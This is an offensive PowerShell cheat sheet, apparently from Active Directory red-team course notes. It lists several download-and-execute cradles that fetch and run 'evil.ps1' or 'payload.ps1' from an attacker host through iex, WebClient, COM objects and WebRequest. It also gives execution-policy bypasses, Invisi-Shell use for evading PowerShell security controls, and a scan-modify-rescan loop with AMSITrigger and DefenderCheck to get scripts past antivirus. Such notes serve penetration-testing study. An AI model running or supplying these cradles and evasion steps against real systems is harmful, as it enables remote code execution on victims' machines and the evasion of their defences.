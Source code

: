 # PowerShell

## <mark style="color:red;">PowerShell Scripts and Modules</mark>

Load a PowerShell script using dot sourcing

```powershell
. C:\AD\Tools\PowerView.ps1
```

A module (or a script) can be imported with:

```powershell
Import-Module C:\AD\Tools\ADModulemaster\ActiveDirectory\ActiveDirectory.psd1
```

All the commands in a module can be listed with:

```powershell
Get-Command -Module <modulename>
```

## <mark style="color:red;">PowerShell Script Execution</mark>

Download execute cradle

<pre class="language-powershell"><code class="lang-powershell">iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

<strong>#PSv3 onwards
</strong><strong>iex (iwr 'http://192.168.230.1/evil.ps1')
</strong>
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$h.responseText

$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
</code></pre>

## <mark style="color:red;">Execution Policy</mark>

It is NOT a security measure, it is present to prevent user from accidently executing scripts.

Several ways to bypass:

```powershell
powershell -ExecutionPolicy bypass
powershell -c <cmd>
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass"
```

## <mark style="color:red;">Bypassing PowerShell Security</mark>

We will use Invisi-Shell for bypassing the security controls in PowerShell.

{% embed url="https://github.com/OmerYa/Invisi-Shell" %}
Invisi-Shell
{% endembed %}

Using Invisi-Shell:

* With admin privileges:

```powershell
RunWithPathAsAdmin.bat
```

* With non-admin privileges:

```powershell
RunWithRegistryNonAdmin.bat
```

Type exit from the new PowerShell session to complete the clean-up.

## Bypassing AV Signatures for PowerShell

Steps to avoid signature based detection are pretty simple:

1. Scan using AMSITrigger ([https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger)) and DefenderCheck (https://github.com/t3hbb/DefenderCheck):
   1. Simply provide path to the script file to scan it: `AmsiTrigger_x64.exe -i C:\AD\Tools\Invoke-PowerShellTcp_Detected.ps1 DefenderCheck.exe PowerUp.ps1`
   2. For full obfuscation of PowerShell scripts, see Invoke-Obfuscation (https://github.com/danielbohannon/InvokeObfuscation). That is used for obfuscating the AMSI bypass in the course!
2. Modify the detected code snippet
3. Rescan using AMSITrigger
4. Repeat the steps 2 & 3 till we get a result as “AMSI\_RESULT\_NOT\_DETECTED” or “Blank”
